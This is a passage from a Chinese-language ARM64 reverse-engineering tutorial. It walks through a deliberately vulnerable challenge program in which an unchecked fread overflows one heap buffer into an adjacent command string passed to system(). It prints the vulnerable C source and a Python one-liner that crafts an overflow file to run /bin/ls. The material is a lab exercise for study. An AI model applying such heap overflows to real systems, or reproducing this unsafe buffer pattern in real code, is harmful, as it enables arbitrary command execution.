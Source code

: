 所以看起来它试图打开一个文件，该文件的名称作为传递给它的第一个参数。最后，还有一个对执行命令的系统函数的调用，输入是`__command`，对应到汇编上为`x22`寄存器；`__name`(x21)的分配为 0x400 字节，使用 fread 命令读取（`fread(__name,1,fs,f);`）

我们在设备上创建一个简单的文件并将其作为漏洞二进制文件的输入传递。

![arm64_reversing_and_exploitation_part_1-007.png](https://bucket.lilac.fun/2024/08/arm64_reversing_and_exploitation_part_1-007.png)

看起来它打印出了 `whoami` 命令的输入

让我们稍微看一下程序的源码

```c++
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void heapOverflow(char *filename);

int main(int argc, char** argv) {
    if(argc <= 1){
        printf("Better luck next time\n");
    }else if(argc == 3 && strcmp(argv[1], "heap") == 0){
        heapOverflow(argv[2]);
    }
    return 0;
}

void heapOverflow(char *filename){
    printf("Heap overflow challenge. Execute a shell command of your choice on the device\n");
    printf("Welcome: from %s, printing out the current user\n", filename);
    FILE *f = fopen(filename,"rb");
    fseek(f, 0, SEEK_END);
    size_t fs = ftell(f);
    fseek(f, 0, SEEK_SET);
    char *name = malloc(0x400);
    char *command = malloc(0x400);
    strcpy(command,"whoami");
    fread(name, 1, fs, f);
    system(command);
    return;
}
```

果然，传递长度超过 0x400 字节的文件会溢出到相邻的内存，并可能最终溢出到字符串“command”，因此当进行系统调用时，我们也许可以调用我们自己的命令。

使用python生成恶意的文件

```bash
python -c 'print("/"*0x400+"/bin/ls\x00")' > hax.txt
```

然后将它推送到设备中并作为二进制的输入执行，当保护关闭的情况下，会执行`ls`命令
